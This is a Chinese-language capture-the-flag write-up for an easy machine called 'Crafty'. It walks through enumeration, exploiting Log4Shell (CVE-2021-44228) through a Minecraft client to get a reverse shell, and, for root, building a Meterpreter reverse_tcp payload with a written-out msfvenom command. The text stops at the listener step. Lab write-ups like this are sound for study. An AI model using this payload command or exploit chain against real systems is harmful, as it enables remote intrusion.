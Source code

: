 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msfvenom建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5ceb9f4-3f51-4d13-9321-191fc35e0a5a)

    14.使用msf建立reverse連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b4d6cdf8-2705-4eac-a4db-cf64ce8ae515)
